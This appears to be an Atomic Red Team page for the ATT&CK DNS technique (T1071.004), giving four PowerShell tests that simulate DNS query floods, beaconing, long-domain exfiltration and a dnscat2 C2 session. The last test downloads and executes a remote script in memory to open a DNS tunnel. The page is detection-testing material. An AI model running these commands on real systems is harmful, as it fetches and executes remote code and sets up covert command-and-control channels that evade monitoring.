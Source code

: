 # T1071.004 - DNS
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071/004)
<blockquote>Adversaries may communicate using the Domain Name System (DNS) application layer protocol to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

The DNS protocol serves an administrative function in computer networking and thus may be very common in environments. DNS traffic may also be allowed even before network authentication is completed. DNS packets contain many fields and headers in which data can be concealed. Often known as DNS tunneling, adversaries may abuse DNS to communicate with systems under their control within a victim network while also mimicking normal, expected traffic.(Citation: PAN DNS Tunneling)(Citation: Medium DnsTunneling) </blockquote>

## Atomic Tests

- [Atomic Test #1 - DNS Large Query Volume](#atomic-test-1---dns-large-query-volume)

- [Atomic Test #2 - DNS Regular Beaconing](#atomic-test-2---dns-regular-beaconing)

- [Atomic Test #3 - DNS Long Domain Query](#atomic-test-3---dns-long-domain-query)

- [Atomic Test #4 - DNS C2](#atomic-test-4---dns-c2)


<br/>

## Atomic Test #1 - DNS Large Query Volume
This test simulates an infected host sending a large volume of DNS queries to a command and control server.
The intent of this test is to trigger threshold based detection on the number of DNS queries either from a single source system or to a single targe domain.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| query_type | DNS query type | string | TXT|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_volume | Number of DNS queries to send | integer | 1000|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
for($i=0; $i -le #{query_volume}; $i++) { Resolve-DnsName -type "#{query_type}" "#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}" -QuickTimeout}
```






<br/>
<br/>

## Atomic Test #2 - DNS Regular Beaconing
This test simulates an infected host beaconing via DNS queries to a command and control server at regular intervals over time.
This behaviour is typical of implants either in an idle state waiting for instructions or configured to use a low query volume over time to evade threshold based detection.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| runtime | Time in minutes to run the simulation | integer | 30|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_type | DNS query type | string | TXT|
| c2_interval | Seconds between C2 requests to the command and control server | integer | 30|
| c2_jitter | Percentage of jitter to add to the C2 interval to create variance in the times between C2 requests | integer | 20|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-beacon.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type} -C2Interval #{c2_interval} -C2Jitter #{c2_jitter} -RunTime #{runtime}
```






<br/>
<br/>

## Atomic Test #3 - DNS Long Domain Query
This test simulates an infected host returning data to a command and control server using long domain names.
The simulation involves sending DNS queries that gradually increase in length until reaching the maximum length. The intent is to test the effectiveness of detection of DNS queries for long domain names over a set threshold.
 Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| query_type | DNS query type | string | TXT|
| subdomain | Subdomain prepended to the domain name (should be 63 characters to test maximum length) | string | atomicredteamatomicredteamatomicredteamatomicredteamatomicredte|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-domain-length.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type}
```






<br/>
<br/>

## Atomic Test #4 - DNS C2
This will attempt to start a C2 session using the DNS protocol. You will need to have a listener set up and create DNS records prior to executing this command.
The following blogs have more information.

https://github.com/iagox86/dnscat2

https://github.com/lukebaggett/dnscat2-powershell

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | Domain Name configured to use DNS Server where your C2 listener is running | string | example.com|
| server_ip | IP address of DNS server where your C2 listener is running | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/45836819b2339f0bb64eaf294f8cc783635e00c6/dnscat2.ps1')
Start-Dnscat2 -Domain #{domain} -DNSServer #{server_ip}
```






<br/>
